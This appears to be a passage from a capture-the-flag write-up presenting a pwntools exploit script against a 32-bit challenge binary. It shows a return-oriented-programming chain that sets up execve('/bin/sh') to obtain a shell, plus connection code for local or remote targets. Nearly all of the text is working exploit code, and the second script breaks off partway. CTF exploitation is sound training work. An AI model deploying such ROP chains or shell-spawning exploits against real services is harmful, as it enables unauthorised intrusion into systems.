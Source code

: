 ```python
    p32(0x0804939c), # pop ebp ; ret,
    p32(0xb),        # set $eax = 0xb

    p32(0x804976c), # pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
    p32(0x804c308),
    p32(0x804cf00),
    p32(e.plt.sendfile), # execve("/bin/sh", {NULL}, NULL)
# 0x804c308: 
    p32(0),p32(0)
]
```

This is my final exploit script:

```python
#!/usr/bin/env python
from pwn import *
from pwn import p32,p64
from time import sleep


context.binary = e = ELF("./main")

gs="""

"""
def start():
    if args.LOCAL:
        p=e.process()
        if args.GDB:
            gdb.attach(p,gdbscript=gs)
            pause()
    elif args.REMOTE:
        p=remote(args.HOST,int(args.PORT))
    return p


p = start()

def callFunc(func: int, argv: int):
    p.sendafter(b"6. Logout.\n",b"5")
    p.send(
        p32(e.sym.main)+
        p32(0x0804901e)+ # pop ; ret
        p32(0x1337)+
        p32(func)
    )
    p.sendafter(b"6. Logout.\n",b"6")

    p.sendafter(b"6. Logout.\n",b"5")
    p.sendline(
        p32(e.sym._start)+
        p32(argv)
    )
    p.sendafter(b"6. Logout.\n",b"6")


rop = [
    p32(e.sym.magicMove),
    p32(0x0804901e), # pop ebp ; ret
    p32(0x804cf00),  # read(0,buf,16) -> /bin/sh

    p32(e.sym.read),
    p32(0x0804939a), # pop 3 ; ret
```